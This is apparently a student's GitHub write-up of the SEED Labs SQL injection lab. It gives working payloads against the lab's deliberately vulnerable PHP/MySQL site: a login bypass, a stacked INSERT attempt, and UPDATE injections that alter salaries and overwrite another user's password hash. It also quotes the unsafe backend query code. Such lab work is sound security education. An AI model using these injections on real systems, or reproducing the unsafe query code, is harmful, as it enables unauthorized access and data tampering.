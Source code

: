 # SQL-Injection-attack-lab

### Task 1:

	Log in MYSQL:
  
//code
```sql

mysql -u root -pseedubuntu

mysql> use Users;
    
mysql> show tables;
    
	Use such a SQL query:

select * from credential where Name='Alice';

```

![Untitled](Pics/task1.png)

### Task 2:

--> Task 2.1

	.USERNAME: "Admin' #"
  
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
  
//code
```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
    
FROM credential
    
WHERE name='Admin' #' && password='xyz'
```
    
--> Task 2.2

	1- Write Code on Terminator in Seed Lab:
  
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
  
	2- Copy the HTML code.
  
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
  
	4. Run this location on browser

![Untitled](Pics/task2.2.png)

--> Task 2.3

	inject statment to append a row to current database:
  
//code

```sql

INSERT INTO credential (name,eid) VALUES('abc', '17422');
  
After row inserted, go to browser and input as:
  
.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('abc','17422') #"
  
.PASSWORD: "" (blank field)
```

![Untitled](Pics/task2.3.png)

(optional lines)

	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
  
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

### Task 3

EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

--> Task 3.1

	1- Login as Username= 'Alice' && Password = xyz,
  
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
  
	3- Update Phone Number as ', Salary=1000000 and save.
  
--> Task 3.2

	1- Login as Username= 'Boby' #' and then open edit profile
  
	2- Update Phone Number: ',Salary=0 and remaining unchanges



	Login as Alice
  
		Assume login as Boby and keep Alice login too. Open Alice profile edit
    
	Update Phone Number: ', Salary=1 where name='Boby' #
  
  ![Untitled](Pics/task3.2.png)
  
--> Task 3.3

	We're login as Boby but change password of Alice
  
//backend code


```js
	$conn = getDB();
  
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
  
	if($input_pwd!=''){
		
		// In case password field is not empty.
  
	$hashed_ = sha1($input_pwd);
  
		//Update the password stored in the session.
  
	$_SESSION['pwd']=$hashed_pwd;
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
  
	}else{
  
		// if passowrd field is empty.
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
  
	$conn->query($sql);
  
	$conn->close();
  
	header("Location: unsafe_home.php");
  
	exit();
```

	Updation will be on Phone Number field;

	Let Boby password as '123'. We must get SHA1 value of new password via some tool as: c0b656d5e415ca1a8e098a408f913ec229e120b6
  
	Constuct Phone Number:', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
  
	Save it and changes works accordingly. 

![Untitled](Pics/task3.3.png)

